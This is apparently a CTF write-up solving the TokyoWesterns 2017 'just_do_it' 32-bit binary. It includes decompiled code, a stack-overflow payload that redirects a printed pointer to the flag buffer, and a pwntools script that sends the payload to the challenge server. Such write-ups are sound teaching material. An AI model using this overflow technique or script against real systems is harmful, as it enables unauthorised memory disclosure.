 # Just Do It!

This was originally a pwn challenge from the TokyoWesterns 2017 ctf. 

Let's take a look at the binary:
```
$    file just_do_it-56d11d5466611ad671ad47fba3d8bc5a5140046a2a28162eab9c82f98e352afa
just_do_it-56d11d5466611ad671ad47fba3d8bc5a5140046a2a28162eab9c82f98e352afa: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=cf72d1d758e59a5b9912e0e83c3af92175c6f629, not stripped
```

```
$    pwn checksec just_do_it-56d11d5466611ad671ad47fba3d8bc5a5140046a2a28162eab9c82f98e352afa
[*] '/Hackery/west/doit/just_do_it-56d11d5466611ad671ad47fba3d8bc5a5140046a2a28162eab9c82f98e352afa'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

So we can see that it is a 32 bit binary, with a non executable stack. Let's try to run it.

```
$    ./just_do_it-56d11d5466611ad671ad47fba3d8bc5a5140046a2a28162eab9c82f98e352afa
file open error.
: No such file or directory
```

So it is complaining about a file opening error, probably trying to open a file that isn't there. Let's look at the main function in Ghidra:

```
undefined4 main(void)

{
  char local_EAX_154;
  FILE *flagFile;
  int cmp;
  char vulnBuf [16];
  FILE *flagHandle;
  char *target;
 
  setvbuf(stdin,(char *)0x0,2,0);
  setvbuf(stdout,(char *)0x0,2,0);
  setvbuf(stderr,(char *)0x0,2,0);
  target = failed_message;
  flagFile = fopen("flag.txt","r");
  if (flagFile == (FILE *)0x0) {
    perror("file open error.\n");
                    /* WARNING: Subroutine does not return */
    exit(0);
  }
  _local_EAX_154 = fgets(flag,0x30,flagFile);
  if (_local_EAX_154 == (char *)0x0) {
    perror("file read error.\n");
                    /* WARNING: Subroutine does not return */
    exit(0);
  }
  puts("Welcome my secret service. Do you know the password?");
  puts("Input the password.");
  _local_EAX_154 = fgets(vulnBuf,0x20,stdin);
  if (_local_EAX_154 == (char *)0x0) {
    perror("input error.\n");
                    /* WARNING: Subroutine does not return */
    exit(0);
  }
  cmp = strcmp(vulnBuf,PASSWORD);
  if (cmp == 0) {
    target = success_message;
  }
  puts(target);
  return 0;
}
```

So we can see that the file it is trying to open is `flag.txt`. We can also see that this binary will essentially prompt you for a password,  and if it is the right password it will print in a logged in message. If not it will print an authentication error. Let's see what the value of `PASSWORD` is, so we can know what we need to set our input equal to to pass the check:

```
                             PASSWORD                                        XREF[2]:     Entry Point(*), main:080486d0(R)  
        0804a03c c8 87 04 08     addr       s_P@SSW0RD_080487c8                              = "P@SSW0RD"
```

So we can see that the string it is checking for is `P@SSW0RD`.  Now since our input is being scanned in through an fgets call, a newline character `0x0a` will be appended to the end. So in order to pass the check we will need to put a null byte after `P@SSW0RD`.

```
$    python -c 'print "P@SSW0RD" + "\x00"' | ./just_do_it-56d11d5466611ad671ad47fba3d8bc5a5140046a2a28162eab9c82f98e352afa
Welcome my secret service. Do you know the password?
Input the password.
Correct Password, Welcome!
```

So we passed the check, however that doesn't solve the challenge. We can see that with the fgets call, we can input 32 bytes worth of data into `input`. Let's see how many bytes `input` can hold:
```
                             **************************************************************
                             *                          FUNCTION                          *
                             **************************************************************
                             undefined main(undefined1 param_1)
             undefined         AL:1           <RETURN>                                XREF[1]:     0804861d(W)  
             undefined1        Stack[0x4]:1   param_1                                 XREF[1]:     080485bb(*)  
             FILE *            EAX:4          flagFile                                XREF[2]:     0804861d(W),
                                                                                                   08048655(W)  
             char              AL:1           local_EAX_154                           XREF[2]:     08048655(W),
                                                                                                   080486dd(W)  
             int               EAX:4          cmp                                     XREF[1]:     080486dd(W)  
             undefined4        Stack[0x0]:4   local_res0                              XREF[1]:     080485c2(R)  
             undefined4        Stack[-0xc]:4  local_c                                 XREF[1]:     08048704(R)  
             char *            Stack[-0x14]:4 target                                  XREF[2]:     0804860d(W),
                                                                                                   080486ee(W)  
             FILE *            Stack[-0x18]:4 flagHandle                              XREF[3]:     08048625(W),
                                                                                                   08048628(R),
                                                                                                   0804864b(R)  
             char[16]          Stack[-0x28]   vulnBuf                                 XREF[2]:     080486a6(*),
                                                                                                   080486d9(*)  
                             main                                            XREF[4]:     Entry Point(*),
                                                                                          _start:080484d7(*), 0804886c,
                                                                                          080488c8(*)  
        080485bb 8d 4c 24 04     LEA        ECX=>param_1,[ESP + 0x4]
```
 
 So we can see that it can hold 16 bytes worth of data (0x28 - 0x18 = 16). So we effectively have a buffer overflow vulnerability with the fgets call to `input`. However it appears that we can't reach the `eip` register to get RCE. However we can reach `output_message` which is printed with a puts call, right before the function returns. So we can print whatever we want. That makes this code look really helpful:

```
  stream = fopen("flag.txt", "r");
  if ( !stream )
  {
    perror("file open error.\n");
    exit(0);
  }
  if ( !fgets(flag, 48, stream) )
  {
    perror("file read error.\n");
    exit(0);
  }
```
 
  So we can see here that after it opens the `flag.txt` file, it scans in 48 bytes worth of data into `flag`. This is interesting because if we can find the address of `flag`, then we should be able to overwrite the value of `output_message` with that address and then it should print out the contents of `flag`, which should be the flag.
 
```
  .bss:0804A080 ; char flag[48]
.bss:0804A080 flag            db 30h dup(?)           ; DATA XREF: main+95o
.bss:0804A080 _bss            ends
.bss:0804A080
```
 
  So here we can see that `flag` lives in the bss, with the address `0x0804a080`. There are 20 bytes worth of data between `input` and `output_message` (0x28 - 0x14 = 20). So we can form a payload with 20 null bytes, followed by the address of `flag`:
 
```
  python -c 'print "\x00"*20 + "\x80\xa0\x04\x08"' | ./just_do_it-56d11d5466611ad671ad47fba3d8bc5a5140046a2a28162eab9c82f98e352afa
Welcome my secret service. Do you know the password?
Input the password.
flag{gottem_boyz}
```

So we were able to read the contents of `flag.txt` with our exploit. Let's write an exploit to use the same exploit against the server they have with the challenge running to get the flag. Here is the python code:

```
#Import pwntools
from pwn import *

#Create the remote connection to the challenge
target = remote('pwn1.chal.ctf.westerns.tokyo', 12482)

#Print out the starting prompt
print target.recvuntil("password.\n")

#Create the payload
payload = "\x00"*20 + p32(0x0804a080)

#Send the payload
target.sendline(payload)

#Drop to an interactive shell, so we can read everything the server prints out
target.interactive()
```

Now let's run it:

```
$    python exploit.py
[+] Opening connection to pwn1.chal.ctf.westerns.tokyo on port 12482: Done
Welcome my secret service. Do you know the password?
Input the password.

[*] Switching to interactive mode
TWCTF{pwnable_warmup_I_did_it!}

[*] Got EOF while reading in interactive
$
[*] Interrupted
[*] Closed connection to pwn1.chal.ctf.westerns.tokyo port 12482
```

Just like that, we captured the flag!
